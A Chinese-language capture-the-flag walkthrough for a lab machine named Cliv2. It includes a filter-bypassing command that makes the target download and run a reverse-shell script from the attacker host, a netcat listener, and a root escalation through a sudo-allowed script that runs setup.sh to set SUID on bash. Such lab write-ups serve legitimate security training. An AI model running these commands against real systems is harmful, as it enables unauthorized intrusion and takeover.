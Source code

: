 ![image-20250803203858485](http://7r1UMPHK.github.io/image/20250803203858632.webp)

# **一、信息收集**

## 1. 主机发现

使用 `arp-scan` 在本地网络进行扫描，发现目标主机 IP 地址为 `192.168.205.240`。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.240 08:00:27:aa:bc:4b       PCS Systemtechnik GmbH
...
```

## 2. 端口与服务扫描

通过 `nmap` 对目标主机进行全端口扫描，确认其开放了 22 (SSH), 53 (DNS) 和 80 (HTTP) 端口。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.240
...
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

对 DNS 服务进行版本侦察，确认为 ISC BIND 9.16.50。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p53 -sC -sV 192.168.205.240
...
PORT   STATE SERVICE VERSION
53/tcp open  domain  ISC BIND 9.16.50 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.16.50-Debian
...
```

## 3. Web 与 DNS 侦察

直接访问目标 IP 的 80 端口，页面会自动重定向到域名 `http://cliv2.dsz/`。因此，首先在攻击机上配置 `/etc/hosts` 文件，将该域名指向目标 IP。

```bash
# 在 /etc/hosts 文件中添加
192.168.205.240 cliv2.dsz
```

由于目标开放了 DNS 服务，尝试进行 DNS 区域传送（AXFR）攻击，成功获取了多个子域名。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ dig axfr @192.168.205.240 cliv2.dsz
...
cliv2.dsz.              86400   IN      A       127.0.0.1
3170a7.cliv2.dsz.       86400   IN      A       127.0.0.1
client.cliv2.dsz.       86400   IN      A       127.0.0.1
dev.cliv2.dsz.          86400   IN      A       127.0.0.1
ns1.cliv2.dsz.          86400   IN      A       127.0.0.1
...
```

将发现的所有子域名一并添加到 `/etc/hosts` 文件中，以便后续访问。

```bash
# 更新 /etc/hosts 文件
192.168.205.240 cliv2.dsz 3170a7.cliv2.dsz client.cliv2.dsz dev.cliv2.dsz ns1.cliv2.dsz
```

# **二、初始访问**

## Web 渗透 (RCE)

在探测发现的子域名中，访问 `http://3170a7.cliv2.dsz/` 发现一个 Web 终端，该终端允许执行系统命令。

经过测试，后端对输入进行了过滤，禁止了空格和 `-` 等特殊字符。为了绕过空格限制，我们可以使用 shell 的内部字段分隔符 `${IFS}` 来代替。

**攻击步骤:**

1.  在攻击机 (Kali) 上创建一个反弹 shell 脚本 (`reverse.sh`)。
2.  在攻击机上开启一个临时的 HTTP 服务器（例如 `python3 -m http.server 80`）。
3.  在 Kali 上开启 `netcat` 监听。
4.  构造绕过空格限制的恶意命令，下载并执行反弹 shell 脚本。

**恶意命令:**

```bash
cd${IFS}/tmp/;busybox${IFS}wget${IFS}192.168.205.128/reverse.sh;bash${IFS}reverse.sh
```

在 Web 终端执行上述命令后，成功在本地 `netcat` 监听器上接收到了来自目标服务器的 `www-data` 用户反弹 shell。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.240] 53098
...
www-data@Cliv2:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# **三、权限提升**

## 1. 从 `www-data` 到 `bitc0de`

获取初始 shell 后，在 `/home` 目录下发现了用户 `bitc0de`。进一步检查 `/home/bitc0de` 目录，发现一个名为 `...` 的可疑文件。

```bash
www-data@Cliv2:/home/bitc0de$ ls -al
...
-rw-r--r-- 1 root    root      17 Jul 25 23:51 ...
-rw-r--r-- 1 root    root      44 Jul 25 22:35 user.txt
...
www-data@Cliv2:/home/bitc0de$ cat ...
MabEwReOmcpG!123
```

读取该文件内容，获得了一个密码 `MabEwReOmcpG!123`。同时，发现了 `user.txt`，读取后获得第一个 flag。

```bash
www-data@Cliv2:/home/bitc0de$ cat user.txt 
flag{user-60b725f10c9c85c70d97880dfe8191b3}
```

使用获取的密码，成功切换到 `bitc0de` 用户。

```bash
www-data@Cliv2:/home/bitc0de$ su bitc0de
Password: MabEwReOmcpG!123
bitc0de@Cliv2:~$ id
uid=1000(bitc0de) gid=1000(bitc0de) groups=1000(bitc0de)
```

## 2. 从 `bitc0de` 到 `root`

成为 `bitc0de` 用户后，执行 `sudo -l` 发现该用户可以无密码以 `ALL` 权限执行 `/usr/local/bin/hmvcli` 脚本。

```bash
bitc0de@Cliv2:~$ sudo -l
...
User bitc0de may run the following commands on Cliv2:
    (ALL) NOPASSWD: /usr/local/bin/hmvcli
```

分析该 Python 脚本 `/usr/local/bin/hmvcli` 的源代码，发现其中一段存在命令注入漏洞：

```python
...
parser.add_argument('-c', '--config', action='store_true', help='Run the setup script to configure credentials')
args = vars(parser.parse_args())

if args['config']:
    print("[*] Ejecutando script de configuración...")
    subprocess.run(["bash", "setup.sh"])  
    sys.exit(0)
...
```

当使用 `-c` 或 `--config` 参数运行此脚本时，它会以 `root` 权限（因为我们用了 `sudo`）执行当前目录下的 `setup.sh` 文件。我们可以利用这个逻辑来执行任意命令。

**提权步骤:**

1.  在 `bitc0de` 用户权限下，于任意可写目录（如 `/home/bitc0de` 或 `/tmp`）创建一个名为 `setup.sh` 的文件。
2.  在 `setup.sh` 中写入提权命令，这里我们使用 `chmod +s /bin/bash` 为 `bash` 程序设置 SUID 位，使其在执行时获得文件所有者（即 `root`）的权限。
3.  以 `sudo` 方式运行 `hmvcli` 脚本并带上 `-c` 参数，触发漏洞。
4.  执行 `bash -p` 以 root 权限启动一个新的 shell。

```bash
bitc0de@Cliv2:~$ cd /home/bitc0de
bitc0de@Cliv2:~$ echo "chmod +s /bin/bash" > setup.sh
bitc0de@Cliv2:~$ sudo /usr/local/bin/hmvcli -c
[*] Ejecutando script de configuración...
bitc0de@Cliv2:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
bitc0de@Cliv2:~$ bash -p
bash-5.0# id
uid=1000(bitc0de) gid=1000(bitc0de) euid=0(root) egid=0(root) groups=0(root),1000(bitc0de)
```

成功获取 `root` 权限。

# **四、夺取旗帜**

获取 `root` 权限后，读取最终的 `root.txt` 旗帜文件。

```bash
bash-5.0# cat /root/root.txt 
flag{root-12f54a96f64443246930da001cafda8b}

bash-5.0# cat /home/bitc0de/user.txt 
flag{user-60b725f10c9c85c70d97880dfe8191b3}
```

至此，所有旗帜均已夺取，渗透测试完成。